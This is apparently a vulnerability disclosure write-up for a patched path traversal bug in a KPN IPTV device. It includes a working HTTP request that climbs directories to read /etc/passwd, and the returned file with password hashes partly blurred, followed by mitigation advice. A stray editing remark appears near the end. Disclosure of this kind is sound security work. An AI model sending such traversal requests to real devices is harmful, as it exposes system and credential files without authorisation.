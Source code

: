 # KPN IPTV File Path Traversal Vulnerability - PoC (2023)

# affected device 
* Tested on the older IPTV device, (no bluethooth), likely worked on newer typpes to.

# This been patched !!
* 3 day's after report the bug in november 2023, it was fixed with a critial urgent patch, rolled out in 3 day's

## Overview

This report demonstrates a **file path traversal vulnerability** discovered in the KPN IPTV service, which allows an attacker to access sensitive system files, such as `/etc/passwd`, without proper authorization. The vulnerability arises from insufficient input validation, enabling directory traversal by manipulating the URL.

---

## Vulnerability Details

A **directory traversal** attack (also known as path traversal) occurs when an attacker can craft a URL that accesses files outside the intended directory scope of a web server. By adding `../` sequences, attackers can navigate up the file system and access files that should be restricted, such as configuration files or user information.

### Affected URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

# Proof of Concept (PoC)
* Malicious Request Example

* Using a crafted HTTP request, an attacker can access the sensitive /etc/passwd file. The request can be tested using Burp Suite or another HTTP proxy tool.
*Burp Suite Request:
```
http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

* In this request, the attacker exploits the path traversal vulnerability by using ../ sequences to navigate out of the web server’s intended directory structure and access the /etc/passwd file.

# Server Response

* The server responds with HTTP 200 OK, and the contents of the /etc/passwd file are returned. For privacy, the password hashes have been blurred:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```

# Explanation of /etc/passwd

* The /etc/passwd file is critical for user management in Unix-based systems. It contains essential information about user accounts, including:

    * Username: The user’s login name.
    * Password hash: (If stored here, although modern systems use /etc/shadow).
    * UID: User ID.
    * GID: Group ID.
    * Home Directory: The path to the user’s home directory.
    * Shell: The default shell assigned to the user.

Although modern systems store password hashes in /etc/shadow, disclosing /etc/passwd can still reveal valuable information for further attacks.
Impact

# Exploiting this vulnerability could result in the following:
```
   * Information Disclosure: Access to /etc/passwd reveals usernames and potentially hashed passwords.
   * Privilege Escalation: Attackers may use the disclosed information to crack passwords and escalate privileges.
   * Further Exploitation: Combined with other vulnerabilities, this attack could lead to unauthorized system access.
```
# Mitigation Strategies

* To prevent directory traversal attacks like this, the following countermeasures should be implemented:

   * Input Validation: Strictly validate and sanitize all user inputs to disallow sequences like ../.
   * Directory Restrictions: Implement proper file permissions and ensure the web server does not allow access to sensitive directories.
   * Web Application Firewalls (WAFs): Deploy WAFs to detect and block malicious URL patterns indicative of path traversal attacks.

# Conclusion

*Path traversal vulnerabilities pose a significant security risk by allowing attackers to access files that should remain confidential. In this case, the KPN IPTV service was found to be vulnerable to directory traversal, which can lead to the exposure of sensitive files like /etc/passwd. Ensuring proper input validation, restricting directory access, and implementing security mechanisms like WAFs are critical to preventing such vulnerabilities.
References

    OWASP: Path Traversal
5. **Conclusion and references**: Added a conclusion to summarize the importance of mitigating this type of attack and included references for further reading.

